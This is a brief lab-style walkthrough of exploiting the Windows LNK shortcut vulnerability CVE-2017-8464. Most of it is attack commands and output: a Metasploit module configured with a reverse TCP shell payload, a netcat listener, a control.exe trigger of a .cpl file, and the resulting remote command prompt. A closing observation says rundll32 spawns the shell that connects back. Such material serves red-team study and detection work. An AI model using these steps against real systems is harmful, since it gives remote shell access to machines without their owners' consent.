

# LNK Shortcut Code Execution

## Execution



```bash
msfconsole
use windows/local/cve_2017_8464_lnk_lpe
set payload windows/x64/shell_reverse_tcp
set lhost 10.0.0.5
exploit

root@~# nc -lvp 4444
listening on [any] 4444 ...
```





```text
control.exe .\FlashPlayerCPLApp.cpl
```





```text
10.0.0.2: inverse host lookup failed: Unknown host
connect to [10.0.0.5] from (UNKNOWN) [10.0.0.2] 49346
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
```



## Observations

Note how rundll32 spawns a command prompt and establishes a connection back to the attacker:



